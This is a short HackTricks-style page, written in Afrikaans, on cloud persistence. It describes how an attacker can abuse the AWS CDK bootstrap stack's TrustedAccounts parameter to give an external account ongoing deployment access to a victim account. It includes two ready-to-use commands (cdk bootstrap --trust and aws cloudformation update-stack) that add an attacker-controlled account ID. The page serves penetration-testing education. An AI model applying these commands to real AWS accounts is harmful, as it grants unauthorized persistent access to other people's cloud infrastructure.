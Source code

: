 # AWS - Cloudformation Persistensie

{{#include ../../../banners/hacktricks-training.md}}

## CloudFormation

Vir meer inligting, toegang:

{{#ref}}
../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### CDK Bootstrap Stap

Die AWS CDK ontplooi 'n CFN stap genoem `CDKToolkit`. Hierdie stap ondersteun 'n parameter `TrustedAccounts` wat eksterne rekeninge toelaat om CDK projekte in die slagoffer rekening te ontplooi. 'n Aanvaller kan dit misbruik om hulself onbepaalde toegang tot die slagoffer rekening te verleen, hetsy deur die AWS cli te gebruik om die stap met parameters weer te ontplooi, of die AWS CDK cli.
```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```
{{#include ../../../banners/hacktricks-training.md}}
